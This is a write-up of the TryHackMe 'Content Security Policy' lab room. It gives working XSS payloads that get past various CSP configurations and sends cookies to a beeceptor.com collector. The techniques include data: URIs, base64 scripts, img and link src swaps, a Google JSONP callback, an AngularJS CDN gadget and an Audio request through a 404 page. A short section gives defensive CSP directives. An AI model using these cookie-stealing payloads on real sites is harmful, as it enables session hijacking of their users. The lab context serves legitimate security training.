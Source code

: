 # [Content Security Policy writeup](https://tryhackme.com/room/csp)
### Tools
###### Blue Team
[Evaluator](https://csp-evaluator.withgoogle.com/)

[Hasher](https://report-uri.com/home/hash)

[Generator](https://report-uri.com/home/generate)

###### Red Team
[JSONP Bypass](https://github.com/A1vinSmith/JSONBee/blob/master/jsonp.txt)

[Exfiltrator](https://beeceptor.com/)

### Payload
```
fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)

eval(document.location='https://randomcsp.free.beeceptor.com/'.concat(document.cookie))
```

### Attack
###### task 1
```
<BODY ONLOAD=fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)>
```

###### task 2 (`script-src data:`)
```
<script src="data:application/javascript,fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)"></script>
```
The alternative way is using `data:;base64,iVBORw0KGgo...`

```
echo -n 'fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)' | base64

<script src="data:;base64,ZmV0Y2goYGh0dHBzOi8vcmFuZG9tY3NwLmZyZWUuYmVlY2VwdG9yLmNvbS8ke2RvY3VtZW50LmNvb2tpZX1gKQ=="></script>
```

###### task 3 (`img-src *; script-src 'unsafe-inline'`)
```
<IMG id="randomcspsmith" SRC="">
<script>document.getElementById('randomcspsmith').src="https://randomcsp.free.beeceptor.com/" + document.cookie;</script>
```

###### task 4 (`style-src * 'self'; script-src 'nonce-abcdef'`)
```
<link id="randomcspsmith" rel=stylesheet href="" /><script nonce="abcdef">document.getElementById('randomcspsmith').href="https://randomcsp.free.beeceptor.com/" + document.cookie;</script>
```

###### task 5 (JSONP endpoints, `script-src 'unsafe-eval' *.google.com`)
```
<script src="//accounts.google.com/o/oauth2/revoke?callback=eval(document.location='https://randomcsp.free.beeceptor.com/'.concat(document.cookie))"></script>
```

###### task 6 (Trust CDN? `script-src 'unsafe-eval' cdnjs.cloudflare.com`)
CDN is way too generous. They're not only providing dependence for your website also for the hackers. When setting up the script-src directive and its sources, you should pay special attention to what you're allowing to load. If you're loading a script from an external source such as a CDN, make sure you're specifying the full URL of the script or a nonce/SHA hash of it and not just the hostname where it's hosted at, unless you're 100% sure no scripts that could be used to bypass your policy are hosted there. For example, if you're including jQuery from cdnjs on your website, you should include the full URL of the script `script-src cdnjs.cloudflare.com/ajax/.../jquery.min.js` or the SHA256 hash in your policy. Most CDNs allow you to get the script hash somewhere on their site.

```
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.3/prototype.min.js" integrity="sha512-C4LuwXQtQOF1iTRy3zwClYLsLgFLlG8nCV5dCxDjPcWsyFelQXzi3efHRjptsOzbHwwnXC3ZU+sWUh1gmxaTBA==" crossorigin="anonymous"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>

{{$on.curry.call().document.location='https://randomcsp.free.beeceptor.com/' + $on.curry.call().document.cookie}}

</div>
```
https://cdnjs.com/
https://blog.0daylabs.com/2016/09/09/bypassing-csp/

###### task 7
After checking [Evaluator](https://csp-evaluator.withgoogle.com/)
```
default-src 'none';
media-src *;
style-src 'self';
script-src 'self'
```

'self' can be problematic if you host JSONP, Angular or user uploaded files.

`media-src` specifies the URLs from which video, audio and text track resources can be loaded from.
Checking [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/media-src)

This one is the hardest and the best.
1. The 404 pages will show up whatever you put in. means this one match `can be problematic if you host JSONP, Angular or user uploaded files.`
2. Need to understand how `script-src 'self';` works. It means something like `ip:3008/defend-1.js` will be executed.
3. Then try to close the tag with `'`
4. What to do after fetch, window.open, document.location are blocked by CSP? The answer is `media-src` `new Audio`
5. Use relative path for the 404 page, also a browser won't block your input for `Phishing`
6. final answer is 
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----


```
<script src="/'; new Audio('https://randomname.free.beeceptor.com/' + document.cookie); '"></script>
```


### Defend
###### task 1
script-src 'self';

###### task 2
script-src 'nonce-ae3b00';

###### task 3 (Inline JS)
[Hasher](https://report-uri.com/home/hash) to generate the hash for that inline javascript.
script-src 'sha256-8gQ3l0jVGr5ZXaOeym+1jciekP8wsfNgpZImdHthDRo='


### Expand Knowledge
https://content-security-policy.com/#directive

